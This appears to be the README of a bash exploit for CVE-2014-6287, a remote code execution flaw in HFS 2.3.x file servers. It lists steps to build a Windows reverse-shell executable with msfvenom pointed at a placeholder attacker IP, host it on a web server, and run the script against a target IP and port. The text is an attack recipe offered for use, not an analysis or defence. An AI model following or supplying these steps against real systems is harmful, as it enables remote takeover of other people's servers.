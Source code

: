 # CVE-2014-6287
#HFS 2.3.x File Upload Exploit, RCE, that is only a bash version!!!

Step 1 - Create reverse shell
    eg.: msfvenom -p windows/x64/reverse_tcp LHOST=Attacke_IP LPORT=Attacker_PORT -f exe > shell.exe
Step 2 - Start a Web-Server with the msfvenom payload in it
Step 3 - Fire exploit
    eg.: Usage: ./hfs.sh <Target_IP> <Target_Port> <Executable> <Local_IP>
